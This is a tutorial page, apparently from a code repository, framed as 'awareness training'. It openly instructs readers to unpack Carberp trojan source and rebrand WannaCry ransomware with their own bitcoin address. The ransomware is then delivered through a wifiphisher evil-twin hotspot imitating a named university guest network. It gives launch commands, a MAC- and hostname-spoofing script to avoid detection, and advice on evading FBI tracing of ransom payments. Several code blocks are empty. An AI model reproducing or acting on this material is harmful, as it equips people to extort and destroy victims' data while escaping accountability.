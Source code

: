 *Chang Tan
*Lister Unlimited Cybersecurity Solutions, LLC.
*March 3rd, 2018, 8:11am
*Cyberterrorism and Hyperjacking Awareness Training Course

# Foreward: I am very excited to draft this portion

# Online sources, theZoo

The funny thing about malware is that once the weaponized variant is released, it's going to end up someone in the public domain. Especially here, https://github.com/ytisf/theZoo

So clone the repo

```
mkdir ~/Documents/Documents/github-the-zoo
cd ~/Documents/Documents/github-the-zoo
git clone https://github.com/ytisf/theZoo
cd theZoo
git pull origin master --force
```

Then make a backup

```
cd ..
zip -r the-zoo-repo.zip theZoo
```

Now lets have a quick exploration

```
cd theZoo/malwares
ls
```
We have two directories... Binaries, or executable file formats which you should NOT execute, and instead disperse them as a weaponized munition.
And we have Source, which is the source code and build kits prior to compilation. 

Personally I use the Carberp exploit pack located here...

```~/Documents/theZoo/malwares/Source/Original/Carberp/Carberp.zip```

To unlock, ```unzip Carberp.zip``` and enter the password ```infected```

```
root@Lister-Unlimited-Hypervisor:~/Documents/theZoo/malwares/Source/Original/Carberp/Carberp-master/source - absource/pro# ls *
anti_rapport	  BSS		  FakeDllAutorun  ms0073      sert
BC		  Demo_cur	  GrabberIE_FF	  NodInject   SkypeSMS
BinToHex	  Demo_Cur2	  hvnc_dll	  OCR	      talk
BJWJ		  Demo_Cur3	  igrdemodll	  OffInet     Worm
BlackJoeWhiteJoe  DllLoaderHook   InjectDLL	  portforw
bootkit		  DllLoaderHook1  keys		  rdp xpterm
BootkitDropper	  DropSploit	  Locker	  RemoteCtl
bootkit.old	  DropSploit1	  Mini		  schtasks
```

Beautiful. So what is Carberp? Half a decade ago a mysterious Russian crime syndicate released the source code of a powerful banking trojan prior to being arrested and prosecuted. Carberp was composed by approximately 20 Russian cybercriminals, hackers, and software developers with connections to the Russian mob.

The CIA and NSA have been documented to base some malware code on Carberp according to WikiLeaks. My company has cited Carberp as their number one source of malware code.

And now that power is in your hands.

# Another cool trick, modifying the bitcoin address of WannaCry with a hex editor to re-release it.

The beauty is that since you have no idea how to reverse engineer WannaCry, and neither do I, there is no way to stop the damage from being done! This is not the lousy version that has been sinkholed by Marcus Hutchins. This is the later variant that continues to operate and spread to this day.

But what I did learn is that the bitcoin addresses are in cleartext. Which means it can be edited without negatively affecting the malware performance along as it is performed with PRECISION. 

Now my choice of hex editor is Tweak. But first we need to verify the malware is legit

```
root@Lister-Unlimited-Hypervisor:~/Documents/theZoo/malwares/Binaries/Ransomware.WannaCry_Plus# sha256sum Win32.Wannacry.exe 
55504677f82981962d85495231695d3a92aa0b31ec35a957bd9cbbef618658e3  Win32.Wannacry.exe
```

Ensure that the hash value matches that.

Then we need a appropriate delivery vector, for wireless hacking which is my primary specialty, lets use wifi-phisher. In Wifi-Phisher there is a module called Browser_Plugin_Update. How it works is...

1. One pentest adapter is set to kick people off the legitimate network
2. A second peontest adapter projects a near-identical wireless access point
3. Upon connection, a variant of DNS Redirection is performed, with a captive portal produced to allow even cell phones to get forced in there.
4. There is no uplink in this network, we are merely redirecting victims into our page to force a browser download.
5. When a victim clicks on it, WannaCry.exe is renamed update.exe and they will allow it's installation
6. If you followed my optional step, then your bitcoin address is also put in there in place of the original bitcoin address.
7. Hopefully you'll get a couple hunned' in your bitcoin wallet ;)
8. The malware cannot be removed without a full hard disk wipe overwritten with zeroes. All of their data is gone.

```
git clone https://github.com/wifiphisher/wifiphisher
cd wifiphisher
python setup.py install
```

Now lets install our hex editor

```
sudo apt-get update && apt-get install -y tweak
```

Produce a copy of wannacry first so if we break it we got a backup.

```
```

Then run tweak on wannacry

```
```

We are looking for two strings that represent the original bitcoin addresses in the original WannaCry ransom note

```
```

Now I don't know your bitcoin address but word of advice, there is a banking history that is forensically traceable to our current bitcoin address which changes constantly. We will use the OLDER ones in your bitcoin wallet because that way it'll still route to your current bitcoin address.

```
```

Replace the original BTC addr with your replacement

```
```

Now another word of advice. When you get the money, AVOID withdrawing it. The withdrawal creates the paper trail that allows the FBI to track you. Bitcoin ledgers are the same thing as the banking transactions in your monthly statement. It also creates the paper trail that allows the IRS to demand you give them their share of taxable expenses.

I much prefer to spend bitcoin on payable with bitcoin services, like mercenary hackers. 

# Now to launch the payload dropper hotspot

Wifi-Phisher operates in two modes, CLI and interactive
```
# Interactive
wifi-phisher
```
To perform CLI fast-launch mode
```
wifiphisher -aI <iface #1> -jI <iface #2> -p plugin_update -e 'essid'
```

To create a idiot proofed script that will prevent your discovery
```
echo 'ifdown wlan1;ifdown wlan2;hostnamectl set-hostname 'UNLV-Guest';macchanger -r -b wlan1;macchanger -r -b wlan2;rfkill unblock all;ifup wlan1;ifup wlan2;fuser -k 443/tcp;fuser -k 8080/tcp;wifiphisher -aI wlan1 -jI wlan2 -p plugin_update -e 'UNLV-Guest'' > launch-hotspot-unlv-guest.sh
```

Breaking down the command

1. Shut down wireless interfaces 1 and 2
2. Change internal hostname so the nosey fuckers won't find out
3. Change the BURNED IN MAC ADDRESSES to a random address for both interfaces
4. Unblock any annoying Linux blockages that could have occurred
5. Free ports 443 and 8080, the HTTP ports that wifiphisher needs to run it's internal phishing page
6. Run wifiphisher with the scenario Browser Plugin Update and iface1 as the fake access point, iface2 as the de-authenticator, with the name 'UNLV-Guest'


Regardless, you need to specify the path to your payload in a interactive menu. 

```
ls $PWD/wannacry.exe
Copy and paste it into the prompt
```
But we can also code a auto-interact with wifiphisher program using python.

```
echo '#!/usr/bin/python' > auto-wc-dropper.py
atom auto-wc-dropper.py
```

Here is my variant of the source code

# Word of Warning on MAC addresses

You need to match MAC mac addresses that you change to via macchanger. Quickly decloak any hididen MAC addresses and run airodump on your wireless adapters set in monitor mode.

Do not make a exactly identical mac address. You need something very close otherwise you and it will jam each other causing clients to get ping-ponged back and forth and fail to deliver a payload but cause quite a ruckus.

Normally, a MAC address comes in pairs.

1. One for the 2.4 GHz band
2. Another for the 5GHz band

Locate a MAC address in the area and do a +1 or +next letter on the last digit.

# In the event that the repo is brought down, notify me immediately, changtan@listerunlimited.com

I will put it up on my company website https://www.listerunlimited.com

My mission is to ensure that you're not in handcuffs facing federal charges. I will apply everything I know in ensuring your survival. 
